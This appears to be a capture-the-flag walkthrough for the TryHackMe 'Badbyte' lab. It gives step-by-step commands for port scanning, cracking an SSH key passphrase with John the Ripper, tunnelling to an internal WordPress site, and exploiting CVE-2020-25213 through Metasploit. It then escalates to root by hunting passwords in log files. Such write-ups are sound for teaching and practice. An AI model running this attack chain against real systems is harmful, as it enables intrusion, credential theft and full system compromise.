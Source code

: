 # Badbyte - Easy

* Add ```badbyte.thm``` to ```/etc/hosts```

* ```nmap``` scan -

  ```sh
  # scan for open ports
  nmap -p- -vv badbyte.thm

  # scan the open ports for service enumeration
  nmap -A -p 22,30024 badbyte.thm
  ```

* FTP service with anonymous login running on 30024/tcp:

  ```sh
  ftp badbyte.thm 30024
  # anonymous login

  ls -la
  # we have id_rsa and a note.txt

  mget *

  exit

  cat note.txt
  # we get an username 'errrorcauser'

  # we can crack the id_rsa key
  chmod 600 id_rsa

  locate ssh2john

  python /opt/john/ssh2john.py id_rsa > hash_id_rsa

  john hash_id_rsa -w=/usr/share/wordlists/rockyou.txt
  # this cracks the key and gives "cupcake"
  ```

* We can log into SSH using the key and passphrase now:

  ```sh
  ssh errorcauser@badbyte.thm -i id_rsa
  # use the above passphrase

  id
  # command not found

  # we cannot run most of the basic bash commands
  # this is a limited shell
  
  ls
  # this works

  cat note.txt
  ```

* The note says the webserver has been setup locally; but we are unable to access as it is. We would need to do SSH tunnelling:

  ```sh
  ssh errorcauser@badbyte.thm -i id_rsa -D 1337
  # setup dynamic port forwarding

  # in attacker machine
  # setup proxychains
  vim /etc/proxychains.conf

  # we will have 'socks4 127.0.0.1 9050' at end of config
  # comment it out
  # and add config 'socks5 127.0.0.1 1337'

  # run port scan to enumerate internal ports on webserver using proxychains
  # command to be run on attacker machine
  proxychains nmap -sT 127.0.0.1

  # this lists the ports listening on localhost
  # webserver is running on port 80

  # perform local port forwarding to port 80 using -L
  ssh errorcauser@badbyte.thm -i id_rsa -L 4444:127.0.0.1:80
  # now we will be able to access the webserver running on victim port 80 on our port 4444
  ```

* After setting up local port forwarding:

  ```sh
  curl http://localhost:4444
  # we can check this on browser as well

  # the page says it is running WordPress

  # we can check this with nmap as well

  nmap -p 4444 127.0.0.1 -sC -sV -vv
  # scan with default scripts using -sC
  # service version enumeration using -sV
  # -vv for verbosity

  # it is indeed using WordPress
  # we can use wpscan

  wpscan --url http://127.0.0.1:4444 --enumerate vp
  # this does not show any vulnerable plugins

  wpscan --url http://127.0.0.1:4444 --enumerate u
  # this gives user 'cth'

  nmap -p 4444 127.0.0.1 -sC -sV -vv --script http-wordpress-enum --script-args type="plugins",search-limit=1500
  # this works
  # without specifying search-limit it will go for top 100 only

  # we get two plugins 'duplicator 1.3.26' and 'wp-file-manager 6.0'
  ```

* Googling for exploits associated with these WP plugins give us CVE-2020-11738 and CVE-2020-25213 - we can follow the latter as it is a RCE exploit:

  ```sh
  msfconsole

  search CVE-2020-25213
  # it is available

  use 0

  options
  # configure the options and run the exploit

  run
  # we get Meterpreter session

  sessions
  # need to interact with this

  session -i 1

  # in Meterpreter session
  shell
  # get Linux shell

  # get basic shell
  python3 -c 'import pty;pty.spawn("/bin/bash")'

  whoami
  # cth

  ls -la /home

  ls -la /home/cth
  # get user flag from here
  ```

* For privesc, we have been given a clue about passwords left in a file; we can use [password hunting methods](https://juggernaut-sec.com/password-hunting-lpe/):

  ```sh
  find / -exec ls -lad $PWD/* "{}" 2>/dev/null \; | grep -i -I "passw\|pwd"

  cd /var
  # search in this directory

  grep --color=auto -rnw -iIe "PASSW\|PASSWD\|PASSWORD\|PWD" --color=always 2>/dev/null
  # searches for these strings recursively

  # we find a few interesting files
  cat /var/log/bash.log

  # we get the old password here
  # we can try changing the year from 2020 to something more recent
  # this trick works and we are able to login as cth

  su cth
  # use new password here

  id
  # we are part of 'sudo' group
  # switch to root user

  sudo su -
  # enter cth password
  # we get root shell now
  ```

